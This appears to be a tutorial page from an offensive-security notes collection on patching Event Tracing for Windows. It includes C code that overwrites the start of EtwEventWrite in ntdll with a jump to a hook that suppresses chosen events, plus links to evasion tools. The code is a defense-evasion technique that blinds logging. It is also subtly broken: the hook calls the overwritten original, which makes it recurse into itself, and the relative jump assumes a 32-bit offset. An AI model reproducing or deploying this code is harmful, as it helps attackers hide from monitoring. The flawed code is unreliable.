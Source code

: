 # ETW Patch

Event Tracing for Windows (ETW) is a powerful mechanism provided by Windows for tracing and logging system events. ETW patching involves modifying the ETW infrastructure to either hide certain events from being logged or to manipulate the event data for various purposes. This technique can be used by both legitimate developers for debugging and by adversaries for evasion.

## How ETW Patching Works

ETW operates through providers that generate events, which are captured by consumers. The flow of ETW can be intercepted and manipulated by patching specific functions in the ETW stack. This is typically done by hooking or overwriting parts of the ETW-related functions in `ntdll.dll` or other relevant libraries.

### Common Targets for ETW Patching

1. `EtwEventWrite`: This function is responsible for writing events. By patching it, one can prevent specific events from being logged.
2. `EtwEventRegister`: This function registers an event provider. By patching it, one can control or prevent certain providers from registering.

### Example: Patching `EtwEventWrite`

Below is a basic example of how one might patch the `EtwEventWrite` function to prevent certain events from being logged. This is a simplified example for educational purposes.

```c
#include <windows.h>
#include <stdio.h>

// Function pointer type for the original EtwEventWrite
typedef ULONG (NTAPI *EtwEventWrite_t)(REGHANDLE, PCEVENT_DESCRIPTOR, ULONG, PEVENT_DATA_DESCRIPTOR);

// Original function pointer
EtwEventWrite_t OriginalEtwEventWrite = NULL;

// Hook function
ULONG NTAPI HookedEtwEventWrite(REGHANDLE RegHandle, PCEVENT_DESCRIPTOR EventDescriptor, ULONG UserDataCount, PEVENT_DATA_DESCRIPTOR UserData)
{
    // Example condition to skip certain events
    if (EventDescriptor->Id == 12345) // Replace 12345 with the specific event ID to filter
    {
        return 0; // Skip the event
    }

    // Call the original EtwEventWrite function
    return OriginalEtwEventWrite(RegHandle, EventDescriptor, UserDataCount, UserData);
}

// Function to patch EtwEventWrite
void PatchEtwEventWrite()
{
    // Get the address of EtwEventWrite in ntdll.dll
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (hNtdll)
    {
        OriginalEtwEventWrite = (EtwEventWrite_t)GetProcAddress(hNtdll, "EtwEventWrite");
        if (OriginalEtwEventWrite)
        {
            // Replace the first few bytes of EtwEventWrite with a jump to our hook function
            DWORD oldProtect;
            VirtualProtect(OriginalEtwEventWrite, 5, PAGE_EXECUTE_READWRITE, &oldProtect);

            // Calculate the relative address for the jump
            DWORD64 relativeAddress = (DWORD64)HookedEtwEventWrite - (DWORD64)OriginalEtwEventWrite - 5;

            // Write the jump instruction
            BYTE jumpInstruction[5] = { 0xE9 }; // JMP opcode
            memcpy(jumpInstruction + 1, &relativeAddress, 4);
            memcpy(OriginalEtwEventWrite, jumpInstruction, 5);

            VirtualProtect(OriginalEtwEventWrite, 5, oldProtect, &oldProtect);
        }
    }
}

int main()
{
    // Patch EtwEventWrite
    PatchEtwEventWrite();

    // Your application logic here

    return 0;
}
```

## Limitation

Not all ETW providers can be bypassed through simple patching techniques. Specifically, many ETW providers operate from within the kernel, making them more challenging to intercept or manipulate.

## Tools

- https://github.com/Mr-Un1k0d3r/AMSI-ETW-Patch
- https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32

## Resource

- https://jsecurity101.medium.com/understanding-etw-patching-9f5af87f9d7b
- https://www.phrack.me/tools/2023/04/10/Patching-ETW-in-C.html
- https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/
